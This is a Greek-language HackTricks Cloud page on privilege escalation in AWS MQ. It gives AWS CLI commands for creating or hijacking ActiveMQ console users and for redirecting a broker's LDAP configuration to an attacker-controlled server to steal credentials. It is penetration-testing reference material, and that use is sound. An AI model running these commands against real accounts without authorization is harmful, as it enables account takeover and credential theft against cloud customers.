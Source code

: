 # AWS - Προνομιούχα Εξέλιξη στον MQ

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}

## MQ

Για περισσότερες πληροφορίες σχετικά με τον MQ ελέγξτε:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Με αυτές τις άδειες μπορείτε **να δημιουργήσετε ένα νέο χρήστη σε έναν μεσίτη ActimeMQ** (αυτό δεν λειτουργεί στον RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Πιθανή Επίπτωση:** Πρόσβαση σε ευαίσθητες πληροφορίες πλοηγούμενος μέσω του ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Με αυτές τις άδειες μπορείτε **να δημιουργήσετε ένα νέο χρήστη σε έναν μεσίτη ActimeMQ** (αυτό δεν λειτουργεί στο RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Πιθανή Επίπτωση:** Πρόσβαση σε ευαίσθητες πληροφορίες πλοηγώντας μέσω του ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Αν ένας μεσίτης χρησιμοποιεί **LDAP** για την εξουσιοδότηση με το **ActiveMQ**. Είναι δυνατόν να **αλλάξετε** τη **διαμόρφωση** του διακομιστή LDAP που χρησιμοποιείται σε **έναν που ελέγχεται από τον επιτιθέμενο**. Με αυτόν τον τρόπο ο επιτιθέμενος θα μπορεί να **κλέψει όλα τα διαπιστευτήρια που στέλνονται μέσω του LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Εάν μπορούσατε να βρείτε τα αρχικά διαπιστευτήρια που χρησιμοποιήθηκαν από το ActiveMQ θα μπορούσατε να εκτελέσετε ένα MitM, να κλέψετε τα διαπιστευτήρια, να τα χρησιμοποιήσετε στον αρχικό διακομιστή και να στείλετε την απάντηση (ίσως απλά επαναχρησιμοποιώντας τα διαπιστευτήρια που κλάπηκαν θα μπορούσατε να το κάνετε αυτό).

**Πιθανή Επίπτωση:** Κλοπή διαπιστευτηρίων ActiveMQ
